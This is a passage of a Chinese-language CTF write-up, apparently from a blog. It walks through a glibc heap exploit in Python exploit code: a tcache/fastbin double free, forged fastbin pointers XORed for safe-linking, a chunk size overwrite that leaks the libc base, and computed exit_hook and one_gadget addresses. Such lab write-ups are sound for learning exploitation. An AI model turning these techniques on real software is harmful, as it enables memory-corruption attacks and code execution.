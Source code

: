 ### 二、伪造fastbin链

这里我们先填满tcache,然后free 7号chunk进入fastbin，结构入下图所示。由于新的libc机制，这里的fd指针都进行了异或操作，所以看起来并不是很直观。

 

```Python
for i in range(1,7):
    free(i)
## double free
free(7)
add(10,'aaaaaaaa')
free(7)
# pause()
```

![img](https://img-blog.csdnimg.cn/e5ae010babec4989a45fa29018da4cb4.png)

然后申请chunk，此时从tcache中取出最后一个chunk。由于此时tcache中仅剩6个chunk，我们再对7号chunk进行free时，它便会放入tcache中。通过这样的doublefree我们构造了一个即在Tcache又在fastbin的chunk，如下所示。

![img](https://img-blog.csdnimg.cn/839aa64c464c4ab1a42b524daf40f730.png)

 接下来我们便可以开始构造fake fastbin，需要注意的是fastbin中的fd指针同样需要异或处理，我们可以得到如下结构,此时tcache链长度为0，fastbin的长度为7.

 

```Python
add(10,p64(key^(heap_base+0x480)))
add(0,b'a'*0x20+p64(key^(heap_base+0x440)))
add(1,b'a'*0x20+p64(key^(heap_base+0x400)))
add(2,b'a'*0x20+p64(key^(heap_base+0x3a0)))
add(3,p64(key^(heap_base+0x380)))
add(4,b'a'*0x20+p64(key^(heap_base+0x340)))
add(5,b'a'*0x20+p64(key)) ##7
```

 

![img](https://img-blog.csdnimg.cn/5e6f8e3dac8945b28ddf8b4794c3395f.png)

###  三、伪造tcache链并泄露libc

 此时我们调用add()，就会触发fastbin和tcache的stash机制，此时其余6个chunk便会扔到tcache中，其结构如下所示

>  当从 fastbin 里取 chunk 时，其余的 chunk 会被依次放入对应的 tcache 中，终止条件时 fastbin 链为空或者 tcache 装满。

![img](https://img-blog.csdnimg.cn/687aa9ca42f04f08895b1958d2ae0c29.png)

 再次add，tcache和fastbin的取出顺序是相反的，即tcache最上方的chunk将被取出，同时编辑内容更改**0x56309de85360**的头部size大小为0x441。之后我们只需要free掉360处的chunk便可泄露libc

>  fastbin最大为0x410,这里用0x441刚好可以对齐chunk

![img](https://img-blog.csdnimg.cn/60c6e7ed5e2d4633b5226a7183ab38d7.png)

```Python
## change head of 4 
add(7,b'a'*0x18+p64(0x441))

free(4) 
show(4)
io.recvuntil('Content: ')
libc_base = u64(io.recvuntil('\x0a')[:-1].ljust(8,b'\x00')) - 0x218cc0
success('libc_base-->'+hex(libc_base))

exit_hook = libc_base + 0x21a6c8
one_gadget = libc_base + 0xeeccc
success('exit_hook-->'+hex(exit_hook))
```
